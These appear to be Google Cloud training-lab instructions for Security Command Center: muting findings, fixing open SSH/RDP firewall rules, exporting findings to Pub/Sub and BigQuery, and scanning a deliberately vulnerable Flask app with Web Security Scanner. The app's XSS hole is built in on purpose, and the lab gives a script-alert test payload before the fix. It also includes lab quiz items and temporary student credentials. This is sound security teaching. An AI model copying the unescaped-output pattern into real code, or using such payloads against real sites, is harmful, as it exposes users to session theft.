Container Threat Detection (CTD)—Detects the most common container runtime attacks in a Container Optimized OS.
Event Threat Detection (ETD)—Provides log-based threat analysis that continuously monitors Google Cloud and Google Workspace logs to scan for potential threats.
Virtual Machine Threat Detection—Analyzes memory of VM instances on the level of a Hypervisor and can detect suspicious activities happening in VM memory. Examples are unexpected kernel modules or running crypto-mining software.
Click on the Manage settings link for Security Health Analytics.
Click on the Modules tab.
Modules are pre-defined, or custom units of detection logic. As you can see, SCC offers many different types of modules that can help you detect different misconfigurations of resources. SCC makes it easy to enable and disable different types of modules to support your security posture and the resources you are interested in monitoring.
In the filter field, type
VPC_FLOW_LOGS_SETTINGS_NOT_RECOMMENDEDand press Enter.Select Enable from the Status dropdown.
With this enabled, Security Health Analytics checks whether the enableFlowLogs property of VPC subnetworks is missing or set to false.
Note: There is a delay until SCC starts scanning resources using the newly enabled module.
Now that you are familiar with Security Command Center's different services and how to configure them, you can explore how to identify and fix a vulnerability with SCC.
Task 3. Analyze and fix SCC vulnerability findings
In this task, you learn how to manage and mitigate vulnerability findings.
Mark a finding as INACTIVE to change its state
From the Navigation menu (
In the left-hand menu, click on the Findings tab.
Set the Timge range selector in the top-right corner to All time.
Roughly how many findings in total are included in the list?
50
40
60
70
Submit
In the top-left corner of the screen, find the Query preview window, which contains a filter for sorting through all available findings.
By default, the Findings tab displays unmuted findings with a state of ACTIVE.
The two properties state and mute of every finding define visibility of findings in many filters used for SCC.
The mute value can be set on findings by the security analyst or it can be set automatically if the analyst does not want to see irrelevant and noisy findings in the SCC interface.
The state property indicates whether a finding requires attention and has not been addressed yet, or if it's been fixed or otherwise addressed and is no longer active.
A recommended way to manage the lifecycle of findings and hide them is to use the mute property. Changing the state property is typically handled by software sources.
On the Quick filters card, select the checkbox associated with the Default network category.
Notice that the query string in the Query preview has changed (it now has
AND category="DEFAULT_NETWORK"attached to it).In the Findings query results section, select the checkbox associated with Default network and select More actions (
Set the state to Inactive for this finding.
Now the finding has been deactivated and hidden from the screen because by default only active and unmuted findings are listed.
Filter findings results by applying a query
You can reset the Findings tab view. To do this, select Risk Overview and then choose Findings under the SCC header.
Roughly how many findings in total are in the list?
60
40
50
70
Submit
Click the Edit query button.
Change the query string in the Query editor to
category="DEFAULT_NETWORK".When you're finished editing, click the Apply button.
It may take a minute or two for the change to take effect. Once it does, only one finding for Default network is listed.
In the left-hand menu under Quick filters, note that the Show inactive checkbox is selected. SCC gives you the flexibility to search for active and inactive findings. Now, you can revert the state of this finding.
In the Findings query results section, select the checkbox for Default network and select More actions (
Set the state for this finding to Active.
Findings can be activated and deactivated manually, but they can never be deleted by a user. They are deleted automatically only when a finding has not been refreshed by scanners during a period of 13 months.
When a security scanner checks the same finding and does not detect the misconfiguration that kicked off the finding, it marks it as INACTIVE. If the vulnerability still presents in the system, the finding stays in an ACTIVE state.
Click the Clear All button next to Quick Filters to reset the findings tab.
In the Query preview window, click Edit Query.
Now copy and paste the the following query:
xxxxxxxxxxstate="ACTIVE" AND NOT mute="MUTED" AND resource.type="google.compute.Subnetwork"
Copied!
When you're finished editing, click the Apply button.
Now all findings related to subnetworks display. For this lab, the default VPC network is created with the --subnet-mode=auto parameter, so none of its subnets have Private Google Access enabled and all subnets do not write VPC Flow logs.
Filter findings by category and mute them
When working in a test environment, you sometimes want to hide certain findings. In this instance, you do not want to see SCC findings about Private Google Access in this network, so you want to mute those findings.
In the Quick filters window, select the category, Private google access disabled.
In the Finding query results pane, select the uppermost Category checkbox so all "Private google access disabled" findings are selected.
Select More actions (
In the dropdown, select Apply mute override. This operation mutes existing findings.
Select Risk Overview in the left-hand menu and then select Findings to reset the findings view.
Roughly how many findings in total can you see in the list?
70
60
50
40
Submit
Notice that the Private google access disabled findings are now muted and no longer display. Muting is a powerful way to filter SCC results and provides you the fine-grained control over your resources and findings you are interested in.
Create a mute rule to hide certain findings
Another misconfiguration of the default network is that VPC Flow Logs are also disabled in the subnets of this network. Since you are working in a test environment, you don't need VPC Flow Logs enabled.
In this section, you mute all existing and all future findings related to this category.
In the Findings query results window, select More actions (
Click the Create mute rule button.
Note: You can create an SCC configuration that mutes existing and all new findings satisfying the criteria, defined in the Finding query field. Note that previously you muted existing "Private google access disabled" (PGA) findings.
That was a one-time operation and newly detected findings reporting about disabled PGA still appear in SCC. However, if you create a mute rule, you effectively mute all existing and all new findings.
In the new window, enter a Mute rule with ID:
muting-pga-findings.For the mute rule description, enter
Mute rule for VPC Flow Logs.In the Findings query filter input field, enter the following filter:
xxxxxxxxxxcategory="FLOW_LOGS_DISABLED"
Copied!
Click the Save button.
You should get a notification statig that a mute rule has been created.
Click Check my progress to verify you've completed this objective.
Create a mute rule
Check my progress
Now refresh the main SCC Dashboard by selecting Findings from the left-hand menu.
Ensure that you no longer get any Private google access disabled or Flow logs disabled findings.
Note: If any of these findings still display, please refresh the browser tab.
Create another VPC network to test the findings mute rule
In this section, you create one more network with automatically configured subnets to test out the recent modifications to your finding rules.
Open a new Cloud Shell session (
xxxxxxxxxxgcloud compute networks create scc-lab-net --subnet-mode=auto
Copied!
Note: It may take a few minutes for the subnet to be created.
Ensure the output you receive is similar to the following.
Output:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-03-c6821aef4c0f/global/networks/SCC-lab-net].NAME: SCC-lab-netSUBNET_MODE: AUTOBGP_ROUTING_MODE: REGIONALIPV4_RANGE:GATEWAY_IPV4:
Click Check my progress to verify you've completed this objective.
Create a network
Check my progress
Close the Cloud Shell window after you have verified the above message.
Refresh the SCC findings window and note the newly created Private google access disabled finding. However, there are no findings about VPC Flow Logs (this is because of the mute rule you created earlier).
Although you created mute rules for VPC Flow Logs, SCC still allows you to view them using the query editor.
Click the Edit Query button and paste in the following to overwrite the existing query filter text:
xxxxxxxxxxcategory="FLOW_LOGS_DISABLED"
Copied!
Click Apply.
Check the Findings query results window and note that in the Resource display name column, both the "defaults" and "SCC-lab-net" networks are listed.
Note: If you do not see the default network listed, please make sure that the parameter Rows per page is set to 100. Also check that the Time Range parameter is set to the All time value.
In the Query preview window, click Edit Query.
Now copy and paste the the following query to overwrite the previous query text:
xxxxxxxxxxstate="ACTIVE" AND NOT mute="MUTED"
Copied!
When you're finished editing, click the Apply button.
This shows you the findings you had muted previously.
Investigate and fix two findings with high severity.
In this section, you investigate and explore how to fix two findings with high severity.
In the Quick Filters section, scroll down to the Severity type and select High from the list of severity options.
You should see two findings: Open RDP port and Open SSH port. They have been initiated because the "default" network contains two firewall rules enabling SSH and RDP traffic to all instances in this network from the whole Internet.
In the Findings query results window, click on the Open RDP port finding.
A new window appears, which provides a detailed description of the issue itself, a list of affected resources, and "Next steps" to help you remediate it.
In the Next steps section, click on the link to go to the firewall rules page, which opens in a new tab.
Click the default-allow-rdp firewall rule.
Click Edit.
Delete the source IP range,
0.0.0.0/0.Add the following source IP range
35.235.240.0/20and press Enter.
Note: This range of IP addresses is used for connecting to VM instances securely via Identity Aware Proxy. More information is available on the Using IAP for TCP forwarding page.
Do not change any other parameters!
Click Save.
Once saved, close the browser tab where you edited the firewall rule.
Refresh the SCC findings browser tab.
You should now see only one finding with High severity - Open SSH Port.
Update the firewall rules to address a finding
Click on the Open SSH port finding.
Scroll down to the Next steps section and click on the link to go to the firewall rules page, which opens in a new tab.
Click the default-allow-ssh firewall rule.
Click Edit.
Delete the source IP range,
0.0.0.0/0.Add the following source IP range
35.235.240.0/20and press Enter.Do not change any other parameters!
Click Save.
Once saved, close the browser tab where you edited the firewall rule.
Click Check my progress to verify you've completed this objective.
Update the firewall rules
Check my progress
Now close the window with an open finding description and refresh the browser window.
You should see no findings with High severity.
Congratulations!
Throughout this lab, you learned how to explore the Security Command Center interface elements, configure SCC settings at the project level, and analyze and fix SCC vulnerability. You have also used SCC to identify and remediate critical security vulnerabilities in your Google Cloud environment.
LAB - Analyze Findings with Security Command Center
Overview
Security Command Center (SCC) is a security monitoring platform that helps users accomplish the following:
Discover security-related misconfigurations of Google Cloud resources.
Report on active threats in Google Cloud environments.
Fix vulnerabilities across Google Cloud assets.
In this lab, you learn about Security Command Center by exploring the service’s analyzed assets and export features.
Objectives
In this lab, you learn how to perform the following tasks:
Create a continuous export pipeline to Pub/Sub.
Export and analyze SCC findings in a BigQuery table.
Prerequisites
It is recommended that you're familiar with the following before starting this lab:
Cloud computing concepts.
Google Cloud console.
The severity classifications for findings (this is recommended but not required).
Pub/Sub and BigQuery (recommended but not required).
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-e33c941009e3@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxVRkOon286rTgCopied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-04-0f5774f16b5e. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-04-0f5774f16b5e
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-02-e33c941009e3@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-04-0f5774f16b5e
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Scenario
Cymbal Bank is an American retail bank with over 2,000 branches in all 50 states. It offers comprehensive debit and credit services that are built on top of a robust payments platform. Cymbal Bank is a digitally transforming legacy financial services institution.
Cymbal Bank was founded in 1920 under the name Troxler. Cymbal Group acquired the company in 1975 after it had been investing heavily in Cymbal Group's proprietary ATMs. As the bank grew into a national leader, they put strategic emphasis on modernizing the customer experience both in-person at their branches and digitally through an app they released in 2014. Cymbal Bank employs 42,000 people nationwide and, in 2019, reported $24 billion in revenue.
Cymbal Bank is interested in integrating a centralized security monitoring platform to help monitor threats and remediate vulnerabilities across their Google Cloud resources in their corporate banking applications. As a Cloud Security Engineer, you are tasked with learning about Security Command Center's export and analytics features so you can deliver a presentation to the CTO on the services' benefits.
Task 1. Create a continuous export pipeline to Pub/Sub
Security Command Center can export security findings to external resources using several methods, including the following:
Continuous exports to a BigQuery dataset.
Continuous exports to Pub/Sub.
One-time exports to CSV files.
One-time exports to Cloud Storage buckets as JSON files.
In this task, you explore how to configure continuous exports of findings to Pub/Sub.
Note: Continuous exports of findings work only for newly created findings.
Continuous exports to Pub/Sub are typically used for forwarding findings to external security management systems such as Splunk or QRadar.
For the purposes of this lab, you export your findings to a Pub/Sub topic and then simulate an application by fetching the messages from a Pub/Sub subscription.
Note: You can check the documentation page to explore more about What is Pub/Sub?
Create a Pub/Sub topic and subscription
Before you can start configuring an SCC export, you first need to create a Pub/Sub topic and subscription.
On the Google Cloud console title bar, type
Pub/Subin the search field and press Enter. Then click on the uppermost search result, Pub/Sub.Click the Create Topic button on the Topics page.
Enter in
export-findings-pubsub-topicfor the Topic ID.Leave all other settings as their defaults and click Create.
This automatically kicks off the creation process for both a Pub/Sub topic and an associated subscription.
Click Subscriptions in the left-hand menu.
Click on export-findings-pubsub-topic-sub. If you don't see the subscription listed, refresh the browser page.
This provides you with a dashboard of statistics and metrics related to the messages published in this subscription.
Create a continuous export of findings
In the Cloud console, on the Navigation menu (
Click on the Continuous Exports tab.
Click the Create Pub/Sub Export button.
For the Continuous export name, enter in
export-findings-pubsub.For the Continuous export description, enter in
Continuous exports of Findings to Pub/Sub and BigQuery.For the Project name, select
qwiklabs-gcp-04-0f5774f16b5e, which is the project ID of the project you are working in. (Do not select Qwiklabs Resources).In the Select a Cloud Pub/Sub topic field, select the projects/
qwiklabs-gcp-04-0f5774f16b5e/topics/export-findings-pubsub-topic.Set the findings query to the following:
xxxxxxxxxxstate="ACTIVE"AND NOT mute="MUTED"
Copied!
This query ensures that all new ACTIVE and NOT MUTED findings are forwarded to the newly created Pub/Sub topic.
Note: You might see the message that there are several findings matched. Remember that existing findings are not forwarded to the Pub/Sub topic.
Click Save.
You have now created a continuous export from Security Command Center to Pub/Sub.
Create new findings to export to Pub/Sub
In this section, you create new findings and check how they are exported to Pub/Sub.
Open a new Cloud Shell session (
Run the following command to create a new virtual machine:
xxxxxxxxxxgcloud compute instances create instance-1 --zone=europe-west4-a \--machine-type e2-micro \--scopes=https://www.googleapis.com/auth/cloud-platform
Copied!
Ensure you receive an output similar to the following.
Output:
xxxxxxxxxxNAME: instance-1ZONE: us-central-aMACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.128.0.2EXTERNAL_IP: 34.69.82.225STATUS: RUNNING
Note: If you get an error message that says ERROR: (gcloud.compute.instances.create) You do not currently have an active account selected, re-run the command again.
This command creates a new VM instance with a public IP address and a default service account attached.
Performing this activity immediately generates three new vulnerability findings:
Public IP address
Default service account used
Compute secure boot disabled
On the Google Cloud console title bar, type
Pub/Subin the search field and press Enter. Then click on the uppermost search result, Pub/Sub. Then click Subscriptions in the left-hand menu.Select the export-findings-pubsub-topic-sub subscription.
Click the Messages tab.
Select the Enable ack messages checkbox.
Click the Pull button.
You should receive a list of messages in this subscription. These relate to the public IP address, default service account used, and compute secure boot disabled vulnerabilities.
Note: You can click the Column display options button in the Messages list to modify which message details display, such including the body.finding.category for more detail.
By pulling the messages from the Pub/Sub subscription, you have simulated the behavior of an application that can forward these messages to another security monitoring system such as Splunk.
Click Check my progress to verify the objective.
Create a continuous export pipeline to Pub/Sub
Check my progress
Task 2. Export and analyze SCC findings with BigQuery
SCC findings can also be exported to a BigQuery dataset. This might be useful for building analytical dashboards that you can use to check what type of findings appear in your organization most often.
As of now, configuring continuous exports can only be set using commands (i.e. not in the console).
Open a Cloud Shell session (
In your Cloud Shell session, run the following command to create a new BigQuery dataset:
xxxxxxxxxxPROJECT_ID=$(gcloud config get project)bq --location=europe-west4 --apilog=/dev/null mk --dataset \$PROJECT_ID:continuous_export_dataset
Copied!
You have not used an SCC command line interface in this project yet, so you need to enable the SCC service. Run the following command to enable the service in the current project:
xxxxxxxxxxgcloud services enable securitycenter.googleapis.com
Copied!
Now create a new export by entering this command:
xxxxxxxxxxgcloud scc bqexports create scc-bq-cont-export --dataset=projects/qwiklabs-gcp-04-0f5774f16b5e/datasets/continuous_export_dataset --project=qwiklabs-gcp-04-0f5774f16b5e
Copied!
Ensure you receive a similar output message to the following.
Output:
xxxxxxxxxxCreated.dataset: projects/qwiklabs-gcp-04-571fad72c1e8/datasets/continuous_export_datasetmostRecentEditor: student-03-fbc57ac17933@qwiklabs.netname: projects/102856953036/bigQueryExports/SCC-bq-cont-exportprincipal: service-org-616463121992@gcp-sa-scc-notification.iam.gserviceaccount.comupdateTime: '2023-05-31T15:44:22.097585Z'
Once new findings are exported to BigQuery, SCC creates a new table. You can now initiate new SCC findings.
Run the following commands to create three new service accounts without any IAM permissions and create three user-managed service account keys for them.
xxxxxxxxxxfor i in {0..2}; dogcloud iam service-accounts create sccp-test-sa-$i;gcloud iam service-accounts keys create /tmp/sa-key-$i.json \--iam-account=sccp-test-sa-$i@qwiklabs-gcp-04-0f5774f16b5e.iam.gserviceaccount.com;done
Copied!
Once new findings are created in SCC, they are exported to BigQuery. For storing them, the export pipeline creates a new table called findings.
Run the following command to fetch information from BigQuery about newly created findings:
xxxxxxxxxxbq query --apilog=/dev/null --use_legacy_sql=false \"SELECT finding_id,event_time,finding.category FROM continuous_export_dataset.findings"
Copied!
Soon after you should receive output similar to the following.
Output:
xxxxxxxxxx+----------------------------------+---------------------+------------------------------------------+| finding_id | event_time | category |+----------------------------------+---------------------+------------------------------------------+| c5235ebb04b140198874ce52080422b8 | 2024-11-27 08:08:08 | Persistence: Service Account Key Created || 94d933ee9803d0f1c807551fd22a0269 | 2024-11-27 08:08:04 | USER_MANAGED_SERVICE_ACCOUNT_KEY |+----------------------------------+---------------------+------------------------------------------+
Note: It may take 10+ minutes for these findings to be generated. Rerun the above command if you don't receive a similar output.
Click Check my progress to verify the objective.
Export findings to a BigQuery dataset
Check my progress
Export findings to a Cloud Storage bucket and create a BigQuery table
Security Command Center is typically enabled in pre-existing and mature Google Cloud infrastructures. As soon as the SCC is enabled, it starts scanning existing vulnerabilities and eventually might report thousands of findings on existing infrastructure.
The SCC interface might not provide the best way to sort and filter such findings, so exporting these findings to a BigQuery database is a common practice for running analytics against findings.
Direct exporting of findings to BigQuery is not supported yet. Instead, you can use a Google Cloud Storage bucket as an interim storage solution.
Create a Cloud Storage bucket
To export existing findings to a BigQuery interface, you need to export them first to a Cloud Storage bucket. In this section, you create the storage bucket.
In the Cloud console, on the Navigation menu (
Click the Create button.
Every bucket name in Google Cloud must be unique. Set the bucket name to scc-export-bucket-
qwiklabs-gcp-04-0f5774f16b5e.Click Continue.
Set the Location type to Region.
Choose
europe-west4for the location.Do not change any other settings. Scroll down the page and click Create.
Click the Confirm button when asked whether to "Enforce public access prevention" on this bucket.
Export existing findings as JSONL data
In this section, you export your findings for use in a BigQuery database.
In the Cloud console, on the Navigation menu (
Click the Export button.
From the dropdown list, select Cloud Storage.
For the project name, Select the Project ID as
qwiklabs-gcp-04-0f5774f16b5e(do not select Qwiklabs Resources).Then select the Export path by clicking the Browse button.
Click the arrow next to the scc-export-bucket-
qwiklabs-gcp-04-0f5774f16b5ebutton.Set the filename to
findings.jsonland click Select.In the Format drop-down list, select JSONL.
Change the Time Range to All time.
Do not modify the default findings query.
The final "Export to" form should look similar to the following.
Click the Export button.
Create a table in BigQuery
In this section, you use the exported findings data to create a table in BigQuery.
In the Cloud console, on the Navigation menu (
From the left-hand Explore menu, click on the Add button.
In a new Add window, click on Google Cloud Storage and set the following parameters:
| Setting | Value |
|---|---|
| Create table from | Google Cloud Storage |
| Select the file from GCS bucket | scc-export-bucket-qwiklabs-gcp-04-0f5774f16b5e/findings.jsonl |
| File format | JSONL |
| Dataset | continuous_export_dataset |
| Table | old_findings |
| Schema | Enable the "Edit as text" toggle |
Now paste in the following schema:
xxxxxxxxxx[{"mode": "NULLABLE","name": "resource","type": "JSON"},{"mode": "NULLABLE","name": "finding","type": "JSON"}]
Copied!
Click the Create table button.
Once the new table is created, click the link in the notification that says, Go to table.
Click the Preview tab and confirm you can view your existing findings.
Click Check my progress to verify the objective.
Export findings to a Cloud Storage bucket and create a BigQuery table
Check my progress
Congratulations!
In this lab, you have learned about Security Command Center and analyzed assets as well as exported findings to BigQuery.
LAB - Identify Application Vulnerabilities with Security Command Center
Overview
Web Security Scanner (WSS) is one of Security Command Center's built-in services that can be used to identify security vulnerabilities in App Engine, Google Kubernetes Engine (GKE), and Compute Engine web applications.
This service crawls your application, following all links within the scope of your starting URLs, and attempts to exercise as many user inputs and event handlers as possible. It can automatically scan and detect four common vulnerabilities, including cross-site-scripting (XSS), flash injection, mixed content (HTTP in HTTPS), and outdated/insecure libraries.
Web Security Scanner enables early identification of vulnerabilities and delivers very low false positive rates. You can easily set up, run, schedule, and manage security scans.
In this lab, you use Web Security Scanner to scan a Python Flask application for vulnerabilities.
Objectives
In this lab, you learn how to perform the following tasks:
Launch a vulnerable Python Flask application on a Compute Engine instance.
Use Web Security Scanner to scan the application and find vulnerabilities.
Fix the application vulnerability.
Scan the application again and verify vulnerabilities no longer exist.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Scenario
Cymbal Bank is an American retail bank with over 2,000 branches in all 50 states. It offers comprehensive debit and credit services that are built on top of a robust payments platform. Cymbal Bank is a digitally transforming legacy financial services institution.
Cymbal Bank was founded in 1920 under the name Troxler. Cymbal Group acquired the company in 1975 after it had been investing heavily in Cymbal Group's proprietary ATMs. As the bank grew into a national leader, they put strategic emphasis on modernizing the customer experience both in-person at their branches and digitally through an app they released in 2014. Cymbal Bank employs 42,000 people nationwide and, in 2019, reported $24 billion in revenue.
Cymbal Bank is interested in developing a new banking application for their corporate clients using Google Cloud technology. Application security is critical, and the CTO wants to see how Google Cloud can identify and mitigate application security vulnerabilities. As a Cloud Security Engineer, you are tasked with demonstrating Security Command Center's cutting-edge application vulnerability scanning features.
Task 1. Launch a virtual machine and create a firewall rule for WSS
In this task, you set up the infrastructure to demonstrate an application vulnerability to Cymbal Bank's CTO. More specifically, you deploy a virtual machine and open a firewall rule for Web Security Scanner to be able to access the vulnerable application that you intend to deploy.
On the Google Cloud console title bar, click Activate Cloud Shell (
Create a static IP address that can be used for scanning a vulnerable web application by running the following command:
xxxxxxxxxxgcloud compute addresses create xss-test-ip-address --region=us-central1
Copied!
Run the following command to output the static IP address you just generated:
xxxxxxxxxxgcloud compute addresses describe xss-test-ip-address \--region=us-central1 --format="value(address)"
Copied!
Copy the IP address (a single line of the output) and save it in a notepad.
Run the following command to create a VM instance to run the vulnerable application:
xxxxxxxxxxgcloud compute instances create xss-test-vm-instance \--address=xss-test-ip-address --no-service-account \--no-scopes --machine-type=e2-micro --zone=us-central1-a \--metadata=startup-script='apt-get update; apt-get install -y python3-flask'
Copied!
The startup script installs python-flask, a Web Application Framework, which is used for running a simple Python application demonstrating cross-site scripting (XSS) vulnerability, which is a common web application security vulnerability.
Run the following command to open a firewall rule for Web Security Scanner to access a vulnerable application. Note the source ranges from which Web Security Scanner scans applications.
xxxxxxxxxxgcloud compute firewall-rules create enable-wss-scan \--direction=INGRESS --priority=1000 \--network=default --action=ALLOW \--rules=tcp:8080 --source-ranges=0.0.0.0/0
Copied!
Click Check my progress to verify the objective.
Create the VM with desired configurations
Check my progress
Task 2. Deploy a vulnerable application to trigger an XSS vulnerability
In this task, you obtain the application code and introduce a vulnerability for Web Security Scanner to detect. This is in the form of an application, which is a simple form that receives a user's input and outputs it without any changes.
In the Cloud console, on the Navigation menu (
This may take a minute to initialize for the first time.
Then click on the SSH button next to your instance:
A pop-up may appear, asking you to allow SSH in-browser to connect to VMs. Click Authorize.
This opens an SSH connection to your VM instance in a new window.
In this SSH window (*Not in Cloud Shell*), run the following command to download and extract the vulnerable web application files:
xxxxxxxxxxgsutil cp gs://cloud-training/GCPSEC-ScannerAppEngine/flask_code.tar . && tar xvf flask_code.tar
Copied!
Now run the following command to deploy your application:
xxxxxxxxxxpython3 app.py
Copied!
Soon after, you should receive a message that indicates your application is up and running.
Output:
xxxxxxxxxx* Serving Flask app "app" (lazy loading)* Environment: productionWARNING: This is a development server. Do not use it in a production deployment.Use a production WSGI server instead.* Debug mode: off* Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)
Find the static IP address of the VM you copied into your notepad earlier.
Replace
YOUR_EXTERNAL_IPin the URL field below with that IP address, and open the URL in a new browser tab:
xxxxxxxxxxhttp://<YOUR_EXTERNAL_IP>:8080
Copied!
Note: You can also find the external IP address in the Google Cloud console, where it's listed as a field associated with your VM instance.
Note: If you get a pop-up indicating that the external IP doesn't support a secure connection, click Continue to site.
A Cymbal Bank corporate banking portal with a web form should appear.
In the web form, enter the following string:
xxxxxxxxxx<script>alert('This is an XSS Injection')</script>
Copied!
Now click the POST button.
You should receive the following alert window.
This is a common vulnerability in web applications: a cross-site scripting vulnerability. Cross-site scripting (XSS) is a vulnerability that enables attackers to run malicious scripts in users' browsers in the context of your application. Your browser interprets a string as a legitimate Javascript and executes it.
An attacker who uses an XSS bug to inject JavaScript into an HTML page gains virtually unlimited access to the logged-in sessions of the victims who visit the page: they may steal user data, tamper with it, change privacy or security settings, or even completely alter the way the product looks and operates. Even more, an XSS vulnerability in one application, no matter how inconsequential, may jeopardize other content within the same domain.
This is one of many application vulnerabilities that Web Security Scanner can help you identify.
Click Check my progress to verify the objective.
Download vulnerable web application files on the VM
Check my progress
Task 3. Enable the Web Security Scanner API
Now that the vulnerable application is launched, it's time to demonstrate Web Security Scanner's abilities to the CTO. But first, you need to configure the API that WSS uses to run.
Switch back to the Cloud console browser tab.
From the Navigation menu (
In the Search for APIs and services field, type
Web Security Scannerand press Enter.Select the Web Security Scanner API.
Click Enable to enable the Web Security Scanner API.
Click Check my progress to verify the objective.
Enable the Web Security Scanner API
Check my progress
Task 4. Scan the deployed application with WSS
In this task, you configure and set up a scan of the application to check if it finds security vulnerabilities.
Open the Navigation menu (
Click + New Scan.
In the Starting URLs section, the Starting URL 1 field should be pre-populated with your static IP address.
Add the port number 8080, so that the Starting URL resembles the following:
xxxxxxxxxxhttp://<EXTERNAL_IP>:8080
Copied!
If present, delete Starting URL 2.
Take a minute to review the remaining fields on the Create a new scan screen:
Authentication: a property that can be used to provide application credentials to allow the scanner to authenticate to an app while scanning.
Schedule: a property that can be used to schedule scans to run automatically.
Export to Security Command Center: a property that allows you to automatically export scan configurations and scan results to Cloud Security Command Center after scans are finished.
Verify the Authentication is still set to None and that Schedule is set to Never.
Click Show More to investigate the remaining settings.
Click Save to create the scan.
Note: This creates the scan, but do not run it yet. It must currently be run manually since you did not create a schedule yet.
Click Run to start the scan
Note: Given the number of possible tests, this can take a little over 10 minutes to scan.
Return to your SSH session in your separate browser window.
If the session timed out, run the following command to restart your application:
xxxxxxxxxxpython3 app.py
Copied!
In your SSH Window, you should start to see logs generated similar to the example below—this is Web Security Scanner testing all possible URLs for potential vulnerabilities.
Output:
xxxxxxxxxx34.29.3.21 - - [23/Mar/2023 23:30:41] "GET /output HTTP/1.1" 200 -35.184.129.44 - - [23/Mar/2023 23:31:06] "GET /output HTTP/1.1" 200 -35.184.129.44 - - [23/Mar/2023 23:31:07] "GET /favicon.ico HTTP/1.1" 404 -34.68.231.45 - - [23/Mar/2023 23:31:09] "POST / HTTP/1.1" 302 -34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /output HTTP/1.1" 200 -34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /favicon.ico HTTP/1.1" 404 -35.184.129.44 - - [23/Mar/2023 23:31:17] "POST / HTTP/1.1" 302 -35.184.129.44 - - [23/Mar/2023 23:31:17] "GET /output HTTP/1.1" 200 -
You may see log statements with the following HTTP status codes:
200: A successful request, where the HTTP server answered with an OK response.
302: Indicates a resource is temporarily located elsewhere according to the Location header.
404: indicates that one or more resources were not found.
Check out the HTTP Status and Error Codes documentation for more information.
While the scan is running, feel free to explore the Results, URLs Crawled, and Details tabs. You can also check out this getting started video, or this vulnerability scanning video to learn more about Web Security Scanner.
When the scan is done running, the Results tab should indicate the cross-site vulnerabilities.
The Web Security Scanner was able to scan all starting URLs and detect the XSS vulnerabilities in Cymbal Bank's application. The ability to automate the detection of these critical vulnerabilities is a major benefit for security-minded organizations like Cymbal Bank.
Click Check my progress to verify the objective.
Run a Web Security Scanner scan and detect application vulnerabilities
Check my progress
Task 5. Correct the vulnerability and scan again
Now that you have demonstrated Web Security Scanner can detect a XSS vulnerability, you remediate the vulnerability and run the application scan again.
Return to your SSH window that's connected to your VM instance.
Stop the running application by pressing CTRL + C.
Edit the app.py file using the nano editor by running the following command:
xxxxxxxxxxnano app.py
Copied!
Locate the two lines that set the output string:
xxxxxxxxxx# output_string = "".join([html_escape_table.get(c, c) for c in input_string])output_string = input_string
Copied!
Remove the
#symbol from the first line and add it to the beginning of the next line (ensure that you indent your code properly!)
Your final lines must resemble the following:
xxxxxxxxxx@app.route('/output')def output():output_string = "".join([html_escape_table.get(c, c) for c in input_string])# output_string = input_stringreturn flask.render_template("output.html", output=output_string)
Copied!
